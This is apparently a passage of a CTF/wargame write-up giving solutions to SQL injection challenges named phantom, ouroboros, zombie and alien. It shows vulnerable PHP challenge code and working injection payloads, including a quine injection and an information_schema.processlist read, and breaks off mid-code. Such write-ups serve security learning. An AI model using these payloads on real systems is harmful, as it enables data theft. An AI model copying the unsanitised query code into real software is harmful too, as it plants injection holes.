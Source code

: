 payload: '),(0,'ip',(select email from prob\_phantom as cc where no = 1 ))%23

## OUROBOROS([Quines](https://blog.p6.is/quine-sql-injection/))

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|rollup|join|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_ouroboros where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("ouroboros");
  highlight_file(__FILE__);
?>
```

payload: 1%27%20union%20SELECT%20REPLACE%28REPLACE%28%271%22%20union%20SELECT%20REPLACE%28REPLACE%28%22%24%22%2CCHAR%2834%29%2CCHAR%2839%29%29%2CCHAR%2836%29%2C%22%24%22%29%20AS%20Quine%23%27%2CCHAR%2834%29%2CCHAR%2839%29%29%2CCHAR%2836%29%2C%271%22%20union%20SELECT%20REPLACE%28REPLACE%28%22%24%22%2CCHAR%2834%29%2CCHAR%2839%29%29%2CCHAR%2836%29%2C%22%24%22%29%20AS%20Quine%23%27%29%20AS%20Quine%23

## Zombie(information\_schema)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("zombie");
  if(preg_match('/rollup|join|ace|@/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select pw from prob_zombie where pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['pw']) echo "<h2>Pw : {$result[pw]}</h2>";
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("zombie");
  highlight_file(__FILE__);
?>
```

Filter replace

\=> payload : ' union select (select mid(info,38,84) from information\_schema.processlist limit 1)%23

## Alien(use now)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/admin|and|or|if|coalesce|case|_|\.|prob|time/i', $_GET['no'])) exit("No Hack ~_~");
  $query = "select id from prob_alien where no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $query2 = "select id from prob_alien where no='{$_GET[no]}'";
  echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
  if($_GET['no']){
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] !== "admin") exit("sandbox1");
    $r = mysqli_fetch_array(mysqli_query($db,$query));
    if($r['id'] === "admin") exit("sandbox2");
```